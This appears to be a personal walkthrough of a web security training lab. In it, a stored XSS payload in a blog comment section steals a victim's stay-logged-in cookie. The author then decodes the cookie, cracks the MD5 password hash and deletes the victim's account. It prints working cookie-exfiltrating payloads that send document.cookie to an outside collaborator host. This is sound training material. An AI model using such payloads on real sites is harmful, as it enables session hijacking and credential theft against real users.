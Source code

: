 # Lab Offline password cracking

Objective: 

 This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

    Your credentials: wiener:peter
    Victim's username: carlos


Visiting the landing page reveals the following

![[Pasted image 20210919160758.png]]

Selecting "View Post" visits one of the blog posts


Scrolling down reveals the vulnerable comment section. 

![[Pasted image 20210919160854.png]]

I need to try different XSS payloads until, one works. 

Using the BurpSuite XSS cheat sheet, I found the following payload.

![[Pasted image 20210919161240.png]]

`
<video><source onerror=location=/\02.rs/+document.cookie>
`

I can use the "Burp Collaborator Client" which is a feature of BurpSuitePro that allows me to test out of band techniques. 

Burp Collaborator will start a listener for me on burpcollaborator.net. Any traffic to this domain will be sent to my client.

To start a listener, visit Burp > Burp Collaborator client

![[Pasted image 20210919162129.png]]

Clicking "Copy to clipboard, will get me the collaborator domain I will use for my attacks"

![[Pasted image 20210919162248.png]]

93abbpng7znc1866if44gqzo5fb7zw.burpcollaborator.net

I modified the XSS payload to use the collaborator domain.

`
<video><source onerror=location=/\93abbpng7znc1866if44gqzo5fb7zw.burpcollaborator.net/+document.cookie>
`

I dropped the payload into the vulnerable comment section.
![[Pasted image 20210919162502.png]]

After posting the payload, the page redirected to the burp collaborator domain with my current session cookie

![[Pasted image 20210919162631.png]]

This means that the XSS payload worked. Any user who visits that blog page will send their cookie to my burp collaborator client.

Immediately after dropping the payload, I received a request on my burp collaborator client.

![[Pasted image 20210919163618.png]]
`
secret=AulNpHRdIdE7ysgqyP2AVqQTRBqD0O7X;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
`
The logged-in value looks like base64:
`
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
`
After base64 decoding the cookie results in the following:
`
carlos:26323c16d5f4dabff3bb136f2460a943
`
Cracking this hash reveals the password of onceuponatime

![[Pasted image 20210919163503.png]]

This attack simulated the carlos user, visiting the blog page containing the XSS payload which sent his cookie to my burp collaborator. 

I tried this password

![[Pasted image 20210919163851.png]]

These credentials worked, and I was able to delete his account to complete the lab

![[Pasted image 20210919163926.png]]

![[Pasted image 20210919163951.png]]